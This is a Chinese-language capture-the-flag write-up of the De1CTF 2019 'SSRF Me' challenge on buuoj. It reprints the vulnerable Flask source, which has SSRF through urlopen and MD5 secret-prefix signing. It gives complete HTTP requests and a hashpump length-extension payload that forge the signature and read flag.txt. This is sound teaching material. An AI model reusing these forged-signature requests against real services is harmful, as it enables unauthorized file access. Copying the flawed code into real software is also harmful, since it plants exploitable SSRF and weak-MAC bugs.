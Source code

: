 ```yaml
---
title: buuoj刷题记录4
date: 2019-12-28 21:16:16
tags:
 - web 
 - ctf  
 - buuctf
 - De1CTF
categories: 
 - 刷题记录
---
```

## [De1CTF 2019]SSRF Me

### 0x00 基础

大致了解flask框架，[CVE-2019-9948](http://www.security-database.com/detail.php?alert=CVE-2019-9948)：`urlopen（）可包含本地文件`，[哈希长度扩展攻击](https://www.freebuf.com/articles/web/31756.html) 。

<!--more-->

### 0x01 分析

题目提示 `flag在./flag.txt中`。

打开链接查看源码，在buuoj的复现过程中，查看源码只拿到一行，需要自己一个一个的敲回车改格式。


```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):  #对secert_key、param、action进行MD5运算  的结果与self.sign作比较
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))  # urllib.unquote 相当与  urldecode
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest() #对secert_key、param、action进行MD5摘要签名

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

分析代码，总共三条路由，`@app.route('/')`显示代码，`@app.route("/geneSign", methods=['GET', 'POST'])`生成签名，`@app.route('/De1ta',methods=['GET','POST'])`获取参数并执行`Exec()`函数

大概思路就是在 /De1ta 中 get param ，cookie action sign 去读取 flag.txt，其中，`param=flag.txt`，`action` 中要含有 `read` 和 `scan`，且 `sign=md5(secert_key + param + action)`

在`getSign`函数中，生成MD5签名的方式是`secert_key + param + action`其中`action=scan`，`secert_key`未知`param`可以控制。

在`@app.route('/De1ta',methods=['GET','POST'])`中，`cookies`中的`action`必须为`readscan`，sign为

`secert_key + param + scan`签名后的md5，使`param=flag.txtread`直接获取到签名后的md5。

### 0x02 开始操作

先获取到签名后的md5

访问`http://35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn/geneSign?param=flag.txtread`

返回为`0155303824bd0738b4ed0a52b7446c08`


```http
GET /De1ta?param=flag.txt HTTP/1.1
Host: 35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: action=readscan; sign=0155303824bd0738b4ed0a52b7446c08 
```

结果

`{"code": 200, "data": "flag{04726554-0f9f-47f4-9c1a-114e21e68594}\n"}`

### 0x02 另一种解法

使用hashdump 利用哈希长度扩展攻击，

已知`（secret+flag.txt+scan）=40ad0bf20e771e768e9305810410c1b9`

求`（secret+flag.txt+scanread）`

经过测试密钥是16位 加上scanread是24位。

```bash
root@kali:/tmp/HashPump# hashpump 
Input Signature: 40ad0bf20e771e768e9305810410c1b9
Input Data: scan   #写上原有数据
Input Key Length: 24    #密钥长度+数据长度+拓展的数据长度
Input Data to Add: read   #拓展的数据
46a6ff04f7bede58de30e93410935976 #生成的MD5
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read 
```

`burp suite`提交的数据

```http
GET /De1ta?param=flag.txt HTTP/1.1
Host: 6e84dbce-e560-4f27-86f2-54cb202c45fe.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie:action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read;sign=46a6ff04f7bede58de30e93410935976

```

结果`{"code": 200, "data": "flag{6cd67cbd-fdfb-45cc-8654-52766ef0635a}\n"}`

